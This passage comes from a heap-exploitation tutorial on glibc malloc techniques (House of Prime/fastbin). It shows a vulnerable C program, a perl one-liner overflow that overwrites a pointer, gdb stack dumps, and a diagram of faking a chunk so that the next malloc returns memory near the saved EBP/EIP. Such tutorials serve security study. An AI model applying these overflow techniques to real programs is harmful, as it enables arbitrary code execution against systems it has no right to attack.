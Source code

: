 int main(int argc, char *argv[])
{
   if (argc == 3)
      fvuln(argv[1], atoi(argv[2]));

   return 0;
}

[-----]

It is easy to see how the "strcpy()" function allow to overwrite the
"ptr1" pointer:

   blackngel@mac:~$ ./hos `perl -e 'print "A"x32 . "BBBB"'` 20
   PTR1 = [ 0x80c2688 ]
   PTR1 = [ 0x42424242 ]
   Segmentation fault
	
With this in mind, we can change the address of the chunk, but not all
addresses are valid. Remember that in order to execute the "fastbin" code
described in The House of Prime, we need a minor value than "av->max_fast"
and, more specifically, as Phantasmal said, it has to be equal to the size
requested in the future call to "malloc()" + 8.

So as one of the arguments in our application is the "age" parameter, we
can put any value in the stack, which in this case will be "0x48", and
seek its address.

(gdb) x/4x $ebp-4
0xbffff314:	0x00000030	0xbffff338	0x080482ed	0xbffff702

In our case we see that the value is just behind EBP, and PTR1 would must
point to EBP. Remember that we are modifying the pointer to memory, not
the chunk's address.

The most important requirement to success of this technique is pass the
integrity check of the next chunk:

      if (chunk_at_offset (p, size)->size <= 2 * SIZE_SZ
          || __builtin_expect (chunksize (chunk_at_offset (p, size))
                                          >= av->system_mem, 0))

... at $EBP - 4 + 48 we must have a value that meets the above conditions.
Otherwise you should look for another addresses of memory that can allow
you to control both values.

(gdb) x/4x $ebp-4+48
0xbffff344:	0x0000012c	0xbffff568	0x080484eb	0x00000003

I will shown what it happens:


                   val1         target                val2
                    o             |                     o
      -64           |  mem  -4    0   +4  +8  +12 +16   |
       |            |   |    |    |    |   |   |   |    |
  .....][P_SIZE][size+8][...][EBP][EIP][..][..][..][next_size][ ......
                    |   |                           |
                    o---|---------------------------o
                        |      (size + 8) bytes
                       PTR1
                        |---> Future PTR2
                                     ----
